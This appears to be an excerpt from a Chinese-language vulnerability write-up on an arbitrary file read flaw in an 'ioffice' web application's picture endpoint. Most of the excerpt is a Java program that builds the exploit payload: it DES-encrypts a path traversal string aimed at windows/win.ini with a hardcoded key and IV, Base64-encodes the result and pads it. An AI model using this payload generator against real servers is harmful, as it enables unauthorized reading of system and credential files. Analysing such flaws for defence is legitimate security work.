 java

```php
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
public class ioffice_web_pic_indexs {
    private static byte[] key = {(byte)102, (byte)16, (byte)93, (byte)156, (byte)78, (byte)4, (byte)218, (byte)32};
    private static byte[] iv = {(byte)55, (byte)103, (byte)246, (byte)79, (byte)36, (byte)99, (byte)167, (byte)3};

    public static void main(String[] args) {
        String readFile = "../../../../../../windows/win.ini"; // 替换为你的输入字符串
        System.out.println("input: " + readFile);
        byte[] encryptedText = desEncrypt(readFile.getBytes());
        String base64Encoded = Base64.getEncoder().encodeToString(encryptedText);
        // 补位 imgs.Length-2 以下随意填充 2 个字符
        base64Encoded += "GG";
        System.out.println(base64Encoded);
    }

    public static byte[] desEncrypt(byte[] plaintext) {
        try {
            SecretKeySpec keySpec = new SecretKeySpec(key, "DES");
            IvParameterSpec ivSpec = new IvParameterSpec(iv);
            Cipher cipher = Cipher.getInstance("DES/CBC/PKCS5Padding");
            cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
            return cipher.doFinal(plaintext);
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
}
```

### 漏洞加密流程调试代码分析-`ReadAllBytes`配合`new StreamReader().ReadToEnd()`最后`.File(fileContents, "image/png")`读取 - 代码调试
